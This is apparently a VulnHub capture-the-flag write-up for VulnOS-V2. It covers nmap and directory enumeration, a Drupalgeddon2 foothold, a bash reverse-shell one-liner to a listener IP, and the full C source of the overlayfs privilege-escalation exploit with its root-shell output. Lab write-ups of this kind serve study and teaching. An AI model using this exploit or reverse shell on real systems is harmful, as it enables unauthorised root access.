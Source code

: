 ### Part 1 - Enumeration:

I started with nmap scan:

![NMAP](/static/writeups/VulnHub/VulnOS-V2.md/1.png)

Port 22 and 80 are open, i started with http, it was hosting this website

![NMAP](/static/writeups/VulnHub/VulnOS-V2.md/2.png)

After clicking on website i got redirected to jabc company website

![NMAP](/static/writeups/VulnHub/VulnOS-V2.md/3.png)

I fired up dirsearch and found many interesting directories in this site

![NMAP](/static/writeups/VulnHub/VulnOS-V2.md/4.png)

from the directories result, i suspected it was using drupal, so i ran whatweb and found out it was using old version of drupal which was vulnerable to many exploits:

![NMAP](/static/writeups/VulnHub/VulnOS-V2.md/5.png)

### Part 2 - Foothold:

##### searchsploit result:

![NMAP](/static/writeups/VulnHub/VulnOS-V2.md/6.png)

then, i fired up metasploit and used `exploit/unix/webapp/drupal_drupalgeddon2` module and got a shell

![NMAP](/static/writeups/VulnHub/VulnOS-V2.md/7.png)

i used this bash oneliner to get more interactive shell: `bash -c 'bash -i >& /dev/tcp/192.168.36.21/3669 0>&1'`

then i searched for user with loginshell:

```
www-data@VulnOSv2:/var/www/html/jabc$ cat /etc/passwd | grep sh$
cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
vulnosadmin:x:1000:1000:vulnosadmin,,,:/home/vulnosadmin:/bin/bash
postgres:x:107:116:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
```

### Part 3 - root:

I found out it was using vulnerable Linux kernel

```
uname -a
Linux VulnOSv2 3.13.0-24-generic #47-Ubuntu SMP Fri May 2 23:31:42 UTC 2014 i686 i686 i686 GNU/Linux
```

which was vulnerable to 'overlayfs'-local privilege escalation.

Copy this codeblock in file with '.c' extension, eg: a.c

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sched.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <sys/mount.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sched.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <sys/mount.h>
#include <sys/types.h>
#include <signal.h>
#include <fcntl.h>
#include <string.h>
#include <linux/sched.h>

#define LIB "#include <unistd.h>\n\nuid_t(*_real_getuid) (void);\nchar path[128];\n\nuid_t\ngetuid(void)\n{\n_real_getuid = (uid_t(*)(void)) dlsym((void *) -1, \"getuid\");\nreadlink(\"/proc/self/exe\", (char *) &path, 128);\nif(geteuid() == 0 && !strcmp(path, \"/bin/su\")) {\nunlink(\"/etc/ld.so.preload\");unlink(\"/tmp/ofs-lib.so\");\nsetresuid(0, 0, 0);\nsetresgid(0, 0, 0);\nexecle(\"/bin/sh\", \"sh\", \"-i\", NULL, NULL);\n}\n    return _real_getuid();\n}\n"

static char child_stack[1024*1024];

static int
child_exec(void *stuff)
{
    char *file;
    system("rm -rf /tmp/ns_sploit");
    mkdir("/tmp/ns_sploit", 0777);
    mkdir("/tmp/ns_sploit/work", 0777);
    mkdir("/tmp/ns_sploit/upper",0777);
    mkdir("/tmp/ns_sploit/o",0777);

    fprintf(stderr,"mount #1\n");
    if (mount("overlay", "/tmp/ns_sploit/o", "overlayfs", MS_MGC_VAL, "lowerdir=/proc/sys/kernel,upperdir=/tmp/ns_sploit/upper") != 0) {
// workdir= and "overlay" is needed on newer kernels, also can't use /proc as lower
        if (mount("overlay", "/tmp/ns_sploit/o", "overlay", MS_MGC_VAL, "lowerdir=/sys/kernel/security/apparmor,upperdir=/tmp/ns_sploit/upper,workdir=/tmp/ns_sploit/work") != 0) {
            fprintf(stderr, "no FS_USERNS_MOUNT for overlayfs on this kernel\n");
            exit(-1);
        }
        file = ".access";
        chmod("/tmp/ns_sploit/work/work",0777);
    } else file = "ns_last_pid";

    chdir("/tmp/ns_sploit/o");
    rename(file,"ld.so.preload");

    chdir("/");
    umount("/tmp/ns_sploit/o");
    fprintf(stderr,"mount #2\n");
    if (mount("overlay", "/tmp/ns_sploit/o", "overlayfs", MS_MGC_VAL, "lowerdir=/tmp/ns_sploit/upper,upperdir=/etc") != 0) {
        if (mount("overlay", "/tmp/ns_sploit/o", "overlay", MS_MGC_VAL, "lowerdir=/tmp/ns_sploit/upper,upperdir=/etc,workdir=/tmp/ns_sploit/work") != 0) {
            exit(-1);
        }
        chmod("/tmp/ns_sploit/work/work",0777);
    }

    chmod("/tmp/ns_sploit/o/ld.so.preload",0777);
    umount("/tmp/ns_sploit/o");
}

int
main(int argc, char **argv)
{
    int status, fd, lib;
    pid_t wrapper, init;
    int clone_flags = CLONE_NEWNS | SIGCHLD;

    fprintf(stderr,"spawning threads\n");

    if((wrapper = fork()) == 0) {
        if(unshare(CLONE_NEWUSER) != 0)
            fprintf(stderr, "failed to create new user namespace\n");

        if((init = fork()) == 0) {
            pid_t pid =
                clone(child_exec, child_stack + (1024*1024), clone_flags, NULL);
            if(pid < 0) {
                fprintf(stderr, "failed to create new mount namespace\n");
                exit(-1);
            }

            waitpid(pid, &status, 0);

        }

        waitpid(init, &status, 0);
        return 0;
    }

    usleep(300000);

    wait(NULL);

    fprintf(stderr,"child threads done\n");

    fd = open("/etc/ld.so.preload",O_WRONLY);

    if(fd == -1) {
        fprintf(stderr,"exploit failed\n");
        exit(-1);
    }

    fprintf(stderr,"/etc/ld.so.preload created\n");
    fprintf(stderr,"creating shared library\n");
    lib = open("/tmp/ofs-lib.c",O_CREAT|O_WRONLY,0777);
    write(lib,LIB,strlen(LIB));
    close(lib);
    lib = system("gcc -fPIC -shared -o /tmp/ofs-lib.so /tmp/ofs-lib.c -ldl -w");
    if(lib != 0) {
        fprintf(stderr,"couldn't create dynamic library\n");
        exit(-1);
    }
    write(fd,"/tmp/ofs-lib.so\n",16);
    close(fd);
    system("rm -rf /tmp/ns_sploit /tmp/ofs-lib.c");
    execl("/bin/su","su",NULL);
}

```

then after running these command i got root shell

```
www-data@VulnOSv2:/tmp$ gcc a.c -o ofs
gcc a.c -o ofs
www-data@VulnOSv2:/tmp$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@VulnOSv2:/tmp$ ./ofs
./ofs
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
sh: 0: can't access tty; job control turned off
# whoami
root
```

![NMAP](/static/writeups/VulnHub/VulnOS-V2.md/8.png)

I got root like this.
